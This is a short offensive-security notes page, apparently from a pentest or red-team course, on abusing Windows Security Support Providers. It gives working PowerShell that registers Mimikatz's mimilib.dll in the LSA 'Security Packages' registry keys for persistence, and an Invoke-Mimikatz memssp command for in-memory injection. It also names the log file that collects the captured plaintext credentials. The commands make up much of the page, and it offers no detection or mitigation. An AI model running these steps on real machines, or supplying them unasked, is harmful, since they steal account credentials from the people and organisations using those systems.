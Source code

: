 # 8.6 - Custom SSP

### Custom SSP

* A **Security Support Provider (SSP)** is a DLL that allows applications to establish authenticated connections. Common Microsoft SSPs include:
  * **NTLM**
  * **Kerberos**
  * **Wdigest**
  * **CredSSP**
* **Mimikatz** provides a custom SSP (`mimilib.dll`) that logs plaintext credentials (including local, service, and machine accounts) on the targeted machine.

#### Installation Methods:

**1. Registry Injection Method (Persistent):**

Drop the `mimilib.dll` into `C:\Windows\System32\` and register it via the Registry:

```powershell
# Append 'mimilib' to the list of registered security packages
$packages = Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\' -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'
$packages += "mimilib"

# Update registry entries
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\' -Name 'Security Packages' -Value $packages
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\' -Name 'Security Packages' -Value $packages
```

**2. In-Memory Injection (Less Stable, especially on Server 2019/2022):**

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

All captured credentials will be logged in:

```
C:\Windows\System32\mimilsa.log
```
